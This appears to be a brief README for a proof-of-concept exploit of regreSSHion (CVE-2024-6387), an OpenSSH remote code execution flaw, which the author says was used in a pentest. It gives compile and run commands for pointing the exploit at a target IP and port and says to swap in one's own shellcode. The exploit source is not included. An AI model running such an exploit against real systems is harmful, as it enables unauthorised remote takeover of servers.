 **Exploitation of regreSSHion (CVE-2024-6387) for RCE in a pentest**

https://blog.qualys.com/vulnerabilities-threat-research/2024/07/01/regresshion-remote-unauthenticated-code-execution-vulnerability-in-openssh-server#detect-and-remediate-cve-2024-6387-with-qualys-totalcloud-container-security

FIrst:

Replace the shellcode with yours to run  

It's been fixed for the client of course. :stuck_out_tongue_closed_eyes:

Run this:

``` shell
gcc -o regreSSHion exploit.c -lpthread

```

Then run this:

``` shell

./regreSSHion <target_ip> <target_port>

```
